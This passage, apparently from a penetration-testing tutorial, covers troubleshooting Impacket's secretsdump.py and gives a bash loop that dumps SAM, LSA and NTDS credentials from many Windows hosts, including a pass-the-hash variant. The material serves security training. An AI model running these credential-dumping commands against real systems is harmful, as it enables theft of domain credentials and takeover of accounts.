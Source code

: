 ### Troubleshooting Common Issues

#### Access Denied Errors
```bash
# Ensure proper privileges
# For SAM/LSA: Local administrator required
# For NTDS: Domain administrator or backup operator required

# Check if RemoteRegistry service is running
sc query RemoteRegistry

# Start RemoteRegistry if needed
sc start RemoteRegistry
```

#### Connection Issues
```bash
# Specify target explicitly
secretsdump.py DOMAIN/user:pass@target -target-ip ip_address

# Use different authentication method
secretsdump.py -hashes :hash DOMAIN/user@target

# Check firewall/network connectivity
telnet target 445
```

#### Large Domain Optimization
```bash
# Resume interrupted dumps
secretsdump.py DOMAIN/user:pass@target -resumefile resume.txt

# Limit output to specific types
secretsdump.py DOMAIN/user:pass@target -just-dc-user

# Use specific output format
secretsdump.py DOMAIN/user:pass@target -outputfile results
```

### Automation Scripts

#### Bash Script for Multiple Targets
```bash
#!/bin/bash
# Mass secretsdump script

DOMAIN="MARVEL.local"
USERNAME="administrator"
PASSWORD="Password1"
TARGETS="targets.txt"

while read -r target; do
    echo "[+] Dumping credentials from $target"
    secretsdump.py "$DOMAIN/$USERNAME:$PASSWORD@$target" -outputfile "${target}_dump"
    sleep 2
done < "$TARGETS"
```
